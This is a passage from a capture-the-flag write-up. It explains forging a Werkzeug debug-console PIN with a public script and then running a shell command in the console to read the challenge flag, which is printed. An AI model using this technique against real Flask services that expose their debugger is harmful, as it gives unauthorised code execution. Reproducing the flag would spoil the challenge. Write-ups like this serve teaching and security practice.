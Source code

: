 After a minute, flaskdev's instance should have rebooted, we can kill our own.

Let's use the script found on hacktricks with our own values to forge a pin.

```plain
$ python3 forgePin.py                                                                       
142-003-671
```

We can now access the debugging console and get the flag.

```python
>>> import os ; os.popen('cat /home/flaskdev/flag.txt').read()
'Hero{n0t_s0_Urandom_4ft3r_4ll}\n'
```

### Flag

```Hero{n0t_s0_Urandom_4ft3r_4ll}```
